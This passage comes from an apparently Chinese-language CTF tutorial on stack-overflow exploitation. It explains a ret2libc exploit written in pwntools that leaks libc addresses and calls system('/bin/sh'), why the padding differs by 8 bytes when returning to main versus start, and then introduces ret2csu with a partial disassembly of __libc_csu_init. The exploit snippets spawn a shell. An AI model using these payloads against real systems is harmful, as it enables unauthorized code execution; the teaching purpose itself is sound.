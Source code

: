     payload2='A'*112+p32(system_addr)+p32(1234)+p32(binsh_addr)
    p.sendlineafter("!?",payload2)

    p.interactive()

首先两个`exp`基本都是这样一种思路：因为程序内部有`puts`函数，所以我们通过栈溢出来让该函数打印出某个已经使用过的函数在`libc`中的地址，从而通过相对地址来得到`system`函数，并设置返回地址为`main`函数或者`start`函数，来再次通过栈溢出到`system`函数来进行攻击。

然而，可以看到，两个`exp`在第二次栈溢出时填充的字符的长度是不相等的，相差8个字符长度。这里写下原因，因为第一个`exp`的第一次栈溢出是回到了`main`，第二个`exp`的第一次栈溢出是回到了`start`函数。

我们知道函数调用的顺序是：`start()`->`main()`->`其他函数()`

因此若回到`start()`函数，程序会再次调用`main()`函数，从而调用其他函数；

若回到`main()`函数，程序将直接调用其他函数。

两者相差一个`main()`函数的`return address `和`ebp`，因此刚好差8个字节。

此外，使用本地的`libc`：

    libc = ELF('./libc-2.19.so')
    libcbase = write_libc - libc.symbols['write']
    system_libc = libcbase + libc.symbols['system']
    bin_sh_libc = libcbase + next(libc.search(b'/bin/sh'))

**也可以使用`libc`里面的`gadgets`。**

## ret2csu

我们知道32位程序可以通过栈传递参数，但64位程序是用寄存器传递参数的，因此在`ret2libc`的时候需要有特定的`gadgets`来给寄存器赋值。有的情况下是没有这样的`gadgets`的，因此需要我们另辟蹊径，获得这样的`gadgets`。

在64位程序下，大多数程序都会调用`libc`的函数，而有一个特殊的函数用于对`libc`进行初始化操作，即`__libc_csu_init`函数。不同版本的函数有区别，我这里随便找了个程序来打开这个函数：

    .text:00000000004006D0 ; void _libc_csu_init(void)
    .text:00000000004006D0                 public __libc_csu_init
    .text:00000000004006D0 __libc_csu_init proc near               ; DATA XREF: _start+16↑o
    .text:00000000004006D0 ; __unwind {
    .text:00000000004006D0                 push    r15
    .text:00000000004006D2                 push    r14
    .text:00000000004006D4                 mov     r15d, edi
    .text:00000000004006D7                 push    r13
    .text:00000000004006D9                 push    r12
    .text:00000000004006DB                 lea     r12, __frame_dummy_init_array_entry
    .text:00000000004006E2                 push    rbp
    .text:00000000004006E3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
    .text:00000000004006EA                 push    rbx
    .text:00000000004006EB                 mov     r14, rsi
    .text:00000000004006EE                 mov     r13, rdx
    .text:00000000004006F1                 sub     rbp, r12
    .text:00000000004006F4                 sub     rsp, 8
    .text:00000000004006F8                 sar     rbp, 3
    .text:00000000004006FC                 call    _init_proc
    .text:0000000000400701                 test    rbp, rbp
    .text:0000000000400704                 jz      short loc_400726
    .text:0000000000400706                 xor     ebx, ebx
    .text:0000000000400708                 nop     dword ptr [rax+rax+00000000h]
    .text:0000000000400710
    .text:0000000000400710 loc_400710:                             ; CODE XREF: __libc_csu_init+54↓j
    .text:0000000000400710                 mov     rdx, r13
    .text:0000000000400713                 mov     rsi, r14
    .text:0000000000400716                 mov     edi, r15d
    .text:0000000000400719                 call    qword ptr [r12+rbx*8]
    .text:000000000040071D                 add     rbx, 1
    .text:0000000000400721                 cmp     rbx, rbp
    .text:0000000000400724                 jnz     short loc_400710
    .text:0000000000400726